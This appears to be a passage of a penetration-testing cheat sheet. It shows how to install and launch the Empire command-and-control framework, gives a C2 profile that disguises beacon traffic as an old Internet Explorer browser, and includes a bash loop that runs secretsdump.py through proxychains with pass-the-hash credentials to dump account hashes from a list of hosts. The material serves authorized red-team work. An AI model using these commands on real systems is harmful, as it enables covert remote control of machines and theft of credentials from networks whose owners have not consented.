 Clone GIT Repo
```
	root@workstation:~# git clone https://github.com/adaptivethreat/Empire.git empire
	Cloning into 'empire'...
```

Install Empire
```	
	root@workstation:~# cd empire/
	root@workstation:~/empire# cd setup/
	root@workstation:~/empire/setup# ./install.sh
	Reading package lists... Done
	Building dependency tree
	Reading state information... Done
	...

	Successfully installed pydispatcher
	Cleaning up...

	 [>] Enter server negotiation password, enter for random generation:

	 [*] Database setup completed!

	root@workstation:~/empire/setup#
```

Start Empire
```
	root@workstation:~/empire/setup# cd ..
	root@workstation:~/empire# ./empire
```

Start with REST API for use with Empire Web
```
	./empire --headless --username admin --password <PASSWORD> --restport 1337

	./empire --rest --username admin --password <PASSWORD> --restport 1337
```

### C2 Profiles

Edit default client settings in `/setup/setup_database.py`

Example Default Profile
```
	"/CWoNaJLBo/VTNeWw11212/|Mozilla/4.0 (compatible; MSIE 6.0;Windows NT 5.1)|Accept:image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*|Accept-Language:en-en"
```

# Linux

## BASH

BASH loop example
```
	for u in `cat hosts.txt`; do
		echo -n "[*] user: $u" && \
		proxychains python /usr/local/bin/secretsdump.py domain/username@$u -hashes aad3b435b51404eeaad3b435b51404ee:0e493911f561a425e7a905329f4454bf |tee user_brute.log
	done
```
